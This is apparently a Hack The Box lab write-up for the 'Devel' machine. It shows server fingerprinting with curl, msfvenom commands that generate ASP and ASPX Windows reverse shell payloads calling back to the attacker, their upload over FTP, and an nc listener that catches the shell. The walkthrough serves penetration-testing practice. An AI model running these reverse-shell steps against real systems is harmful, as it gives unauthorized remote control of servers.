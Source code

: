 # Website

Visiting `http://10.10.10.5`, we just see a welcome page:

![[Pasted image 20210614115346.png]]

Viewing the source, the image is `welcome.png` from same level as the root directory of the site:

![[Pasted image 20210614115441.png]]

Going to `/test`, we can't see the file we put:

![[Pasted image 20210614115505.png]]

What if we put a HTML file? Or an ASP file? Before we try, it's worth seeing what it's running:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ curl -v http://10.10.10.5
*   Trying 10.10.10.5:80...
* Connected to 10.10.10.5 (10.10.10.5) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.5
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Type: text/html
< Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
< Accept-Ranges: bytes
< ETag: "37b5ed12c9fd21:0"
< Server: Microsoft-IIS/7.5
< X-Powered-By: ASP.NET
< Date: Mon, 14 Jun 2021 11:05:36 GMT
< Content-Length: 689
< 
```

`curl` reckons it's ASP.NET, as expected from an IIS server. We can try to confirm this - `index.html` doesn't load:

![[Pasted image 20210614115751.png]]

Then again, neither does `index.asp`:

![[Pasted image 20210614120008.png]]

Or `index.aspx`:

![[Pasted image 20210614120025.png]]

Why not just try to upload a shell and see what happens? We can generate an `.asp` reverse shell:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=413 -f asp -o whoops.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of asp file: 38610 bytes
Saved as: whoops.asp
```

And try to upload it:

```bash
ftp> put whoops.asp 
local: whoops.asp remote: whoops.asp
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
38680 bytes sent in 0.00 secs (32.9947 MB/s)
```

Great. Now let's start a listener. I'm using port 413 in case Windows Defender blocks higher ports, so I'll need root permissions to listen:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ sudo nc -lnvp 413
[sudo] password for mac: 
listening on [any] 413 ...
```

Now visit the shell:

![[Pasted image 20210614120438.png]]

We get a 500 error, and no shell. But the 500 rather than a 404 indicates we're probably in the right place to trigger it, and the shell is just wrong. How about an `.aspx` payload?

```bash
┌──(mac㉿kali)-[~/Documents/HTB/devel]
└─$ msfvenom -p windows/shell_reverse_tcp lhost=tun0 lport=413 -f aspx -o whoopsie.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2728 bytes
Saved as: whoopsie.aspx
```

In FTP:

```bash
ftp> put whoopsie.aspx 
local: whoopsie.aspx remote: whoopsie.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2763 bytes sent in 0.00 secs (16.1657 MB/s)
```

This time the page loaded:

![[Pasted image 20210614120758.png]]

And we got a shell!

![[Pasted image 20210614120816.png]]

Shelling the box took about 20 minutes. We're getting quicker!